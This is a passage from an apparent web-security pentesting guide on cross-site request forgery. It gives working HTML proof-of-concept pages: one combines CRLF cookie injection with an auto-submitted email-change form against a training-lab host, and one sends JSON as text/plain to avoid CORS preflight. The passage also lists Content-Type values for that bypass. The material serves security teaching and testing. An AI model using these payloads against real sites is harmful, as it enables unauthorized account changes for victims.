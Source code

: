 In this case you can set the cookie trying to load a fake image and then launch the CSRF attack like in this example:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac4e1f591f895b02c0ee1ee3001800d4.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
      <input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://ac4e1f591f895b02c0ee1ee3001800d4.web-security-academy.net/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
  </body>
</html>
```

{% hint style="info" %}
Note that if the **csrf token is related with the session cookie this attack won't work** because you will need to set the victim your session, and therefore you will be attacking yourself.
{% endhint %}

#### Content-Type change

According to [**this**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple\_requests), in order to **avoid preflight** requests using **POST** method these are the allowed Content-Type values:

* **`application/x-www-form-urlencoded`**
* **`multipart/form-data`**
* **`text/plain`**

However, note that the **severs logic may vary** depending on the **Content-Type** used so you should try the values mentioned and others like **`application/json`**_**,**_**`text/xml`**, **`application/xml`**_._

Example (from [here](https://brycec.me/posts/corctf\_2021\_challenges)) of sending JSON data as text/plain:

```html
<html>
  <body>
    <form id="form" method="post" action="https://phpme.be.ax/" enctype="text/plain">
      <input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "https://webhook/"}'>
    </form>
    <script>
        form.submit();
    </script>
  </body>
</html>
```

#### application/json preflight request bypass
